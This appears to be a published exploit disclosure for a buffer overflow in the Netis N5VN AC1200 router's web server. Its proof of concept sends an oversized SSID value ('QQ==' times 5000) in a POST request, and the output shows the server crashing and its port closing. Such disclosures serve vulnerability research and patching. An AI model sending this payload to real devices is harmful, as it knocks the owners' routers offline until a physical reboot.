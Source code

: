 # Exploit Title: Netis N5VN AC1200 - Buffer Overflow DOS (Denial of Service)

## Date: 05/03/2024

## Exploit Author: Van Lam Nguyen

## Facebook: fb.com/vanlam1412

## Vendor Homepage: https://www.netis-systems.com/

## Version: Netis N5VN AC1200 V1.0.1.1742

## Tested on: Windows

## CVE : N/A

## Overview

- There exist a buffer overflow vulnerability in Netis N5VN AC1200 router that can allow an attacker to crash the web server running on the router by sending a crafted request

- To bring back the http (webserver), a user must physically reboot the route.

## Proof of Concept (Use python)

- POST request to change ssid Wireless 2.4G ('ssid': 'QQ==' \* 5000)

- Successfully: ('Connection aborted.', ConnectionResetError(10054, 'An existing connection was forcibly closed by the remote host', None, 10054, None))

- nmap 192.168.1.254 -p 80 80/tcp closed http

[![Video Title](https://example.com/thumbnail.jpg)](netis.mp4)
